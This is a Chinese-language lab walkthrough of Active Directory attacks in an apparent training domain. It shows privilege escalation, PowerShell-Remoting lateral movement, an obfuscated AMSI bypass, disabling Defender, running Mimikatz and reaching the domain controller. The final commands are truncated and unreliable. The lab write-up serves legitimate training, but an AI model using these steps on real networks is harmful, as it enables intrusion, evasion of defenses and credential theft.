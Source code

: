 ServiceAbused  Command
-------------  -------
AbyssWebServer net localgroup Administrators dcorp\student366 /add
```

# Learning Objective - 5（2）

查找本地管理员可以用powershell远程登录的电脑
```
PS C:\AD> . .\Find-PSRemotingLocalAdminAccess.ps1
PS C:\AD> Find-PSRemotingLocalAdminAccess
dcorp-adminsrv
dcorp-std366
```
可以看到可以远程登录两台电脑，一台是本机，一台是dcorp-adminsrv

问题：Script used for hunting for admin privileges using PowerShell Remoting
答案：Find-PSRemotingLocalAdminAccess.ps1



现在我们可以用Enter-PSSession横向移动到另一台电脑dcorp-adminsrv（计算机全称=dcorp-adminsrv.dollarcorp.moneycorp.local，见上面当前域的计算机列表的枚举）

```
PS C:\AD> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::34d5:8394:57f3:7610%3
   IPv4 Address. . . . . . . . . . . : 172.16.100.66
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.100.254

Tunnel adapter isatap.{6B6E4BEE-3BB9-4E5E-8522-6AC909EEF3D6}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

PS C:\AD> Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local

[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
dcorp\student366

[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::4de0:a61b:db3f:172c%2
   IPv4 Address. . . . . . . . . . . : 172.16.4.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.4.254


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\